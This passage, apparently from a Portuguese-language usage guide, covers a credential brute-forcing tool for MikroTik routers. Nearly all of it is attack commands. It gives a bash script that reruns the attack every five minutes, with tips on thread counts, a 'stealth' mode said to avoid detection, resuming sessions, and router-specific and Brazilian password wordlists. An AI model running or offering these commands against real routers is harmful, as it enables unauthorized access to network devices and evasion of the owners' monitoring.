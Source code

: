 ```bash
```

### 3. Script de Monitoramento

```bash
#!/bin/bash
# monitoring.sh

TARGET="192.168.1.1"
INTERVAL=300  # 5 minutes

while true; do
  echo "Testing $TARGET at $(date)"
  python mikrotikapi-bf-v2.1.py \
    -t $TARGET \
    -u wordlists/users.lst \
    -p wordlists/passwords.lst \
    --validate ftp,ssh,telnet \
    --stealth \
    --export-all
  
  echo "Waiting $INTERVAL seconds..."
  sleep $INTERVAL
done
```

## 🎯 Dicas de Uso

### 1. Otimização de Performance

```bash
# Usar threads adequadas (máximo 15)
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --threads 10

# Usar stealth mode para evitar detecção
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --stealth

# Usar sessões para continuidade
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --resume
```

### 2. Configuração de Wordlists

```bash
# Usar wordlists específicas para Mikrotik
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u wordlists/mikrotik_users.lst -p wordlists/mikrotik_passwords.lst

# Usar wordlists brasileiras
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u wordlists/username_br.lst -p wordlists/labs_passwords.lst
```

